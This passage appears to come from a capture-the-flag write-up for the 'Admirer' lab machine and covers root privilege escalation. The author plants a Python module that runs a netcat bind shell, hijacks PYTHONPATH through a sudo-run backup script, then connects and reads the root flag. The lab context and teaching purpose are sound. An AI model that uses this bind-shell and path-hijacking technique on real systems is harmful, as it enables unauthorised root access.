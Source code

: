 enter the following into the `shutil.py`
```python
import os  
os.system("nc -lvp 9001 -e /bin/bash")
```

this will create a bind shell on the target/victim on port 9001 once the backup script is run.
Time to abuse the ENV permission with sudo. 
```shell
cd /tmp/temp  
sudo -E PYTHONPATH=$(pwd) /opt/scripts/admin_tasks.sh 6
```

and it will look something like this: 
```shell
waldo@admirer:/tmp/temp$ sudo -E PYTHONPATH=$(pwd) /opt/scripts/admin_tasks.sh 6  
Running backup script in the background, it might take a while...  
waldo@admirer:/tmp/temp$ listening on [any] 9001 ...
```

### root
connect to the bind-shell with netcat and enhance the shell.

```shell
$ nc -nv 10.10.10.187 9001  
Ncat: Version 7.80 ( [https://nmap.org/ncat](https://nmap.org/ncat) )  
Ncat: Connected to 10.10.10.187:9001.  
id  
uid=0(root) gid=0(root) groups=0(root)  
python -c 'import pty;pty.spawn("/bin/bash")'  
root@admirer:/tmp/temp# ls  
ls  
shutil.py  
root@admirer:/tmp/temp# cd /root  
cd /root  
root@admirer:/root# ls  
ls  
root.txt  
root@admirer:/root# cat root.txt  
cat root.txt  
42616c7ad960081e92e84a6714880ce1  
root@admirer:/root# ip addr  
ip addr  
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1  
link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00  
inet 127.0.0.1/8 scope host lo  
valid_lft forever preferred_lft forever  
inet6 ::1/128 scope host  
valid_lft forever preferred_lft forever  
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000  
link/ether 00:50:56:b9:43:24 brd ff:ff:ff:ff:ff:ff  
inet 10.10.10.187/24 brd 10.10.10.255 scope global eth0  
valid_lft forever preferred_lft forever  
inet6 dead:beef::250:56ff:feb9:4324/64 scope global mngtmpaddr dynamic  
valid_lft 85923sec preferred_lft 13923sec  
inet6 fe80::250:56ff:feb9:4324/64 scope link  
valid_lft forever preferred_lft forever
```

## EOF 